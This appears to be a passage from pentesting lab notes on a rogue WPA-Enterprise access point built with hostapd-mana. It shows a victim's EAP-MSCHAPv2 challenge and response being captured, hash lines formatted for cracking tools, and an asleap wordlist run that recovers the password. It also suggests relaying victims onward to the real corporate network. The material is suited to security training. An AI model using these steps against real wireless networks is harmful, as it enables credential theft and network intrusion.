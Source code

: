 Example output of a user connecting to our AP:

{% code overflow="wrap" %}
```bash
...
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: authenticated
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 00:2b:bb:b0:42:9e
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: cosmo
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: cosmo
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
...
```
{% endcode %}

Using asleap to crack the password hash, using the output captured in hostapd-mana or by referencing **/tmp/hostapd.credout**:

{% code overflow="wrap" %}
```bash
kali@kali:~$ asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using wordlist mode with "/usr/share/john/password.lst".
        hash bytes:        586c
        NT hash:           8846f7eaee8fb117ad06bdd830b7586c
        password:          password
```
{% endcode %}

{% hint style="info" %}
**crackapd** can be used to automatically run **asleap** when it sees credentials in teh log file. If successful, it adds the user to hostapd **eap\_user** file, allowing the user to successfully connect to our rogue AP.

We could also provide internet access by adding a DHCP server and a few nftables rules to enable routing.

We could _also_ push the attack further by authenticating to the real AP ourselves, providing our _clients_ access to the actual company network as well.
{% endhint %}
